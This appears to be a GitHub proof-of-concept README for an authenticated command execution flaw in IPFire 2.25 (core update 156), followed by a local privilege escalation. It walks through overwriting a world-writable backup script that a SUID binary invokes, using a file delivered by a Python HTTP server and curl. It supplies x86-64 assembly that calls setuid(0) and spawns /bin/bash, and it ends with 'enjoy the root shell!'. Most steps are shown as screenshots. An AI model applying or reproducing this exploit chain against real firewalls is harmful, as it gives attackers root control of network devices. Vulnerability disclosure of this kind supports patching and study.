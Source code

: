 # Ipfire 2-25 (core update 156) authenticated rce

- system run command when install any packet
![packfileinstallation](https://user-images.githubusercontent.com/29048982/118332497-ddca6600-b512-11eb-800d-743975184dc6.png)

- system getting 7zip from just html

![pocpc0](https://user-images.githubusercontent.com/29048982/118332642-15391280-b513-11eb-9b6a-0465443ea6b7.png)

- and check the tmp directory

![pocpc1](https://user-images.githubusercontent.com/29048982/118332771-4dd8ec00-b513-11eb-8931-39fb4e84c8e2.png)

- version 2.25 - core update 156

![version](https://user-images.githubusercontent.com/29048982/118335575-a1016d80-b518-11eb-961b-d51230f45b96.png)

- ipfire allows run arbitrary os command as nobody after login

# Be root!

- check the suid binaries

![find-suid](https://user-images.githubusercontent.com/29048982/118407493-aa5e1780-b689-11eb-86a9-1ded561508d2.png)

- backup program run another script. /var/ipfire/backup/bin/backup.pl (it is a bash script and permission is looky good)

![backup-tespiti](https://user-images.githubusercontent.com/29048982/118407546-ded1d380-b689-11eb-8f43-d30bcab0765e.png)

- try the write in to bash script. (No error. GOOD!)

![yazma-denemesi](https://user-images.githubusercontent.com/29048982/118407615-38d29900-b68a-11eb-939e-c8d6310d1389.png)

- try run bash

![yazabilme-kanıtı](https://user-images.githubusercontent.com/29048982/118407649-661f4700-b68a-11eb-8a8b-a249ec483730.png)

- yes. we can run but it is low-privegled. we must trig to setuid(0)!
- save this and run ```alti name.asm q```
- alti is my own compile-check program in soo_deep repo.

```py
bits 64
section .data
  string db "/bin/bash",0x00
  olmadis db "basarisiz.",0x0a,0x00
  olmadil equ $-olmadis
section .text
  global main
main:
  mov rax,105
  mov rdi,0
  syscall
  cmp rax,0
  je getbash

  mov rax,1
  mov rdi,1
  mov rsi,olmadis
  mov rdx,olmadil
  syscall

  mov rax,60
  xor rdi,rdi
  syscall

getbash:
  mov rax,59
  mov rdi,string
  mov rsi,0
  mov rdx,0
  syscall
```

- and write the new program to /var/ipfire/backup/bin/backup.pl. (we can python http server and curl to write)

- and enjoy the root shell!

![image](https://user-images.githubusercontent.com/29048982/118408035-5274e000-b68c-11eb-8e1f-ec2eec6aaf2b.png)

